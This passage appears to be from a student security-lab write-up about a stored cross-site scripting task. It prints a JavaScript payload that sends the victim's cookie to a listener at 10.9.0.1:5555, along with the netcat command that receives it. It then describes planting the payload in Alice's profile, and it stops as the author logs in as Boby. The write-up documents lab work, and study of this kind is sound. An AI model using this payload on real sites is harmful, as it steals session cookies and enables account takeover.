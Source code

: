 ## Task 3

Since the previous exploits do not expose the victim to the attacker directly, since the information exposed is of the logged in person, a new evolution of this attack is to start a TCP server listening on a port which is going to receive a GET request from the web app with the victim's cookie as a query parameter. This GET request will be triggered by the following malicious code, which tricks the browser by soliciting an image tag rendering:

```js
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```

So we started the server by using the following terminal command: `nc -lknv 5555`:

![TCP Server](images/lab5/lab5_04.png)

Afterwards, we introduced the malicious code on Alice's brief description and logged in as another user, Boby:
